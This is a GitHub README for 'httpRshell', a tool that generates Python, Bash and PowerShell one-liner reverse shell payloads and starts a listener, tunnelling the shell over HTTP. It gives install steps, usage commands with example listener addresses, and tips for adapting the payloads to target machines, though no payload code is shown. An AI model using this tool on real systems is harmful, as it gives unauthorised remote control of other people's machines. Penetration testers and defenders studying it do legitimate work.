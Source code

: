 # httpRshell
reverse shell via http requests/response

### about :
httpRshell.py is a Windows/Linux reverse shell payload generator and handler that abuses the http protocol to establish a reverse shell. it offers generating a one liner payloads in 3 different scripting languages ( python , bash , powershell )

### installation :
clone the github repo
```
git clone https://github.com/o-sec/httpRshell.git
```
move to httpRshell directory 
```
cd httpRshell
```
change httpRshell.py file permission
```
chmod +x httpRshell.py
```
### usage :
```
httpRshell.py <SERVER-HOST> <SERVER-PORT> <PAYLOAD-TYPE>

e.g :

- generating a python payload and start a listener :
httpRshell.py  192.168.1.12 8080 py
- generating a powershell payload and start a listener :
httpRshell.py 192.168.1.12 8080 ps
- generating a bash payload and start a listener :
httpRshell.py 192.168.1.12 8080 sh
```
note : 

the bash payload require curl to be installed on the target machine !.
also the powershell payload is for windows machines and you can make it works on linux by simply edit the first line in the payload_sample.ps1 file by replacing the "$env:username" with "(whoami)" , and replace the start of payload.ps1 "powershell.exe" with "pwsh".

### disclaimer :
i am not responsable for whatever you do with this tool !

